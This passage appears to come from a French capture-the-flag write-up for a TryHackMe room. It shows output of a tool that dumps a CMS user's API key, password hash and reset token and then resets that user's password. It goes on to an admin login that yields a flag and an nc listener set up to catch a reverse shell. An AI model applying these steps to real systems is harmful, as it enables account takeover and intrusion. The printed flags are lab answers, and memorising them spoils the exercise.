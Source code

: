 ```bash
	 [*] i18n : en
	 [*] api_key : account-21ca3cfc400e3e565cfcb0e3f6b96d
	 [*] password : $2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S
	 [*] name : Skidy
	 [*] _modified : 1621719311
	 [*] _created : 1621719311
	 [*] _id : 60a9790f393037a2e400006a
	 [*] _reset_token : rp-3b4c2d717e1d554d6534461ea59a0a7e617efe950f81c
	 [*] md5email : 5dfac21f8549f298b8ee60e4b90c0e66
--------------------------------------------


[+] Do you want to reset the passowrd for skidy? (Y/n): 
[-] Attempting to reset skidy's password:
[+] Password Updated Succesfully!
[+] The New credentials for skidy is: 
 	 Username : skidy 
 	 Password : ?#h{RRRkCh
```

On regarde les informations de skidy et on trouve son adresse mail qui est : skidy@tryhackme.fakemail  

**What is the web flag?**

![page](./Task1-03.png)   
On se connecte sur le cms avec le compte admin.  
On trouve un fichier webflag.php, qui contient le flag.   
Le flag est : thm{f158bea70731c48b05657a02aaf955626d78e9fb}  

**compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.   
